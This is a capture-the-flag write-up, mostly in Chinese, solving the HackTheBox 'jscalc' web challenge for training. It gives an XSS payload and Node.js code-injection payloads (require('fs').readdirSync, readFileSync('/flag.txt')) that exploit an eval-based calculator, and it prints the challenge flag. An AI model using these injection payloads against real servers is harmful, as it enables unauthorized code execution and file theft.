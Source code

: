 ```yaml
---
title: 'HackTheBox: jscalc'
disqus: hackmd
---
```


HackTheBox: jscalc Writeup
===


## Table of Contents

[TOC]

## Topic

### Lab
#### HackTheBox: 
https://app.hackthebox.com/challenges/jscalc

### Initial Enumeration

●Start Machine: 
http://94.237.57.59:46780/

![image](https://hackmd.io/_uploads/rkVED31W0.png)

(Calculate)\
![image](https://hackmd.io/_uploads/rk8YO6kW0.png)

![image](https://hackmd.io/_uploads/SJgyca1-0.png)


## Solution

### 1.Code Review
● main.js
```javascript=
let formula = document.getElementById('formula');
let form    = document.getElementById('form');
let output  = document.getElementById('output');

const flash = (message, level) => {
    alerts.innerHTML += `
        <div class="alert alert-${level}" role="alert">
            <button type="button" id="closeAlert" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
            <strong>${message}</strong>
        </div>
    `;
};

form.addEventListener('submit', e => {
	e.preventDefault();

	fetch('/api/calculate', {
		method: 'POST',
		body: JSON.stringify({
			formula: formula.value
		}),
		headers: {'Content-Type': 'application/json'}
	}).then(resp => {
		return resp.json();
	}).then(resp => {
        result = resp.message.toString();

		if (result.includes('wrong')) {
            flash(result, 'danger');

            setTimeout(() => {
                document.getElementById('closeAlert').click();
            }, 2000);

            return;
        }
        
        flash(result, 'success');

        setTimeout(() => {
            document.getElementById('closeAlert').click();
        }, 2000);
            
        output.value = result;
        
    })
});

```
> "formula":"100*10-3+340"\
> 用JSON格式 POST 到 fetch /api/calculate\
> Content-Type: application/json

● /routes/index.js
```javascript=
const path       = require('path');
const express    = require('express');
const router     = express.Router();
const Calculator = require('../helpers/calculatorHelper');

const response = data => ({ message: data });

router.get('/', (req, res) => {
	return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
	let { formula } = req.body;

	if (formula) {
		result = Calculator.calculate(formula);
		return res.send(response(result));
	}

	return res.send(response('Missing parameters'));
})

module.exports = router;

```
> GET / 顯示index.html\
> POST /api/calculate，如果存在formula，則使用Calculator.calculate運算

### 2.Attempt
#### 2.1 XSS
> [!NOTE]
> main.js 沒有對輸入的payload進行過濾，嘗試XSS

```payload
55688+'<img src=chw onerror="alert(55688)">'
```

![image](https://hackmd.io/_uploads/rkjssa1Z0.png)

#### 2.2 JSON Object
package.json
```json=
{
	"name": "jscalc",
	"version": "1.0.0",
	"description": "",
	"main": "index.js",
	"nodeVersion": "v8.12.0",
	"scripts": {
		"start": "node index.js"
	},
	"keywords": [],
	"authors": [
		"makelaris",
		"makelarisjr"
	],
	"dependencies": {
		"body-parser": "^1.19.0",
		"express": "^4.17.1"
	}
}



```
> [!NOTE]
> 從package.json可以得知使用Node.js\
> 嘗試在JSON格式中注入Node.js指令 

```payload
process.cwd()
```
![image](https://hackmd.io/_uploads/SyNXiCJZA.png)
> [!IMPORTANT]
> ● process.cwd() 是 Node.js 中的一個函式，用於獲取當前工作目錄（Current Working Directory）的路徑。所謂當前工作目錄是指 Node.js 進程當前正在運行的目錄。

> 成功得到Server回應

### 3. Node.js in JSON
#### 3.1 Node.js require('fs')
```payload
require('fs')
```
![image](https://hackmd.io/_uploads/SyyZLCkbA.png)\
> [!IMPORTANT]
> ● require('fs') 是 Node.js 中用於引入文件系統模組的標準語法。文件系統模組（fs）允許 Node.js 應用程式直接與文件系統進行交互，包括讀取檔案、寫入檔案、刪除檔案等操作。

#### 3.2 Browse /app
前面透過process.cwd()當前目錄在/app，利用readdirSync讀取當前目錄下內容
```payload
require('fs').readdirSync('/app').toString()
```
![image](https://hackmd.io/_uploads/SkHP2Cy-R.png)

#### 3.3 Find Flag.txt
```payload
require('fs').readdirSync('../').toString()
```
![image](https://hackmd.io/_uploads/BJlT2R1ZR.png)

### 4. Get FLAG
```payload
require('fs').readFileSync("/flag.txt").toString()
```
> [!IMPORTANT]
> ● require('fs').readFileSync() 是 Node.js 中用於同步讀取檔案的函式。它的作用是以同步的方式從檔案系統中讀取檔案的內容，並將其返回為字串或二進位緩衝區。

![image](https://hackmd.io/_uploads/S1VoR0k-0.png)

> **FLAG: HTB{c4lcul4t3d_my_w4y_thr0ugh_rc3}**

###### tags: `Web` `CTF` `Node.js`


